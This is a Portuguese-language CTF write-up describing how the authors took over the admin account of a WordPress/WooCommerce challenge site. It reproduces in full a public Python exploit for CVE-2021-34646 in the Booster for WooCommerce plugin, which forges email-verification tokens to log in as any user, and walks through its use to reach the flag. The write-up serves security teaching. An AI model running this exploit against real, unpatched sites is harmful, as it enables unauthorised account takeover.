






# Exploração do CTF EXTRA Secure WP Hosting

### Tentamos usar sql injection para dar login na conta do admin mas sem sucesso:

### Como continuamos a achar que era por aí que tinhamos de ir fomos ver as versões do wordpress do WooCommerce e do plugin do WooCommerce. Encontramos isso na informação adicional do produto "Wordpress Hosting"



### Procuramos se existiam vulnerabilidades conhecidas para estas versões. E encontramos o CVE "CVE-2021-34646" relacionado com o Plugin do Woocommerce que diz que as versões até à 5.4.3 são vulneráveis à autenticação através de Bypass.



### Neste mesmo site encontramos tambem um exploit publico: 

 
```
    # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
    # Date: 2021-09-16
    # Exploit Author: Sebastian Kriesten (0xB455)
    # Contact: https://twitter.com/0xB455
    #
    # Affected Plugin: Booster for WooCommerce
    # Plugin Slug: woocommerce-jetpack
    # Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
    # Affected Versions: <= 5.4.3
    # Fully Patched Version: >= 5.4.4
    # CVE: CVE-2021-34646
    # CVSS Score: 9.8 (Critical)
    # Category: webapps
    #
    # 1:
    # Goto: https://target.com/wp-json/wp/v2/users/
    # Pick a user-ID (e.g. 1 - usualy is the admin)
    #
    # 2:
    # Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
    #
    # 3:
    # Check-Out  out which of the generated links allows you to access the system
    #
    import requests,sys,hashlib
    import argparse
    import datetime
    import email.utils
    import calendar
    import base64

    B = "\033[94m"
    W = "\033[97m"
    R = "\033[91m"
    RST = "\033[0;0m"

    parser = argparse.ArgumentParser()
    parser.add_argument("url", help="the base url")
    parser.add_argument('id', type=int, help='the user id', default=1)
    args = parser.parse_args()
    id = str(args.id)
    url = args.url
    if args.url[-1] != "/": # URL needs trailing /
            url = url + "/"

    verify_url= url + "?wcj_user_id=" + id
    r = requests.get(verify_url)

    if r.status_code != 200:
            print("status code != 200")
            print(r.headers)
            sys.exit(-1)

    def email_time_to_timestamp(s):
        tt = email.utils.parsedate_tz(s)
        if tt is None: return None
        return calendar.timegm(tt) - tt[9]

    date = r.headers["Date"]
    unix = email_time_to_timestamp(date)

    def printBanner():
        print(f"{W}Timestamp: {B}" + date)
        print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
        print("We need to generate multiple timestamps in order to avoid delay related timing errors")
        print("One of the following links will log you in...\n")

    printBanner()


    for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
            hash = hashlib.md5(str(unix-i).encode()).hexdigest()
            print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
            token='{"id":"'+ id +'","code":"'+hash+'"}'
            token = base64.b64encode(token.encode()).decode()
            token = token.rstrip("=") # remove trailing =
            link = url+"my-account/?wcj_verify_email="+token
            print(link + f"\n{RST}")

```
### No inicio do exploit é nos dada uma indicação para ir ao site: https://target.com/wp-json/wp/v2/users/ e escolher o user-ID. 

### Fomos então ao site: http://ctf-sp.dcc.fc.up.pt:5001/wp-json/wp/v2/users/ e obtivemos que o id do admin era 1.



### Fizemos o ataque seguindo os passos do exploit "Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1"



### Carregando no primeiro link observamos que estavamos logados como admin.



### Exploramos a área pessoal "Dashboard", "Orders", "Downloads","Adresses"... chegando até "Edit" que nos levou para a página de edição e de administração do site onde encontramos uma área de Posts com o seguinte post que continha a flag:

## flag{please don't bother me}




